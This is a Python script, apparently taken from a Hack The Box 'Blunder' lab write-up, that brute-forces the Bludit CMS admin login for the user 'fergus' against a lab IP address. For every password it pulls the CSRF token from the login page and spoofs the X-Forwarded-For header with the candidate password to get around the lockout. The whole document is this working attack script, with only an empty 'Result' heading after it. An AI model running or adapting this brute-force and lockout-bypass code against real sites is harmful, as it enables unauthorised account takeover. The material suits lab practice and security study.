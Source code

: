 ```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.129.95.225'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []
f = open('/home/kali/Desktop/HTB/lab/blunder/dict.txt')
for line in f.readlines():
    wordlist.append(line.strip())
f.close

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

> Result

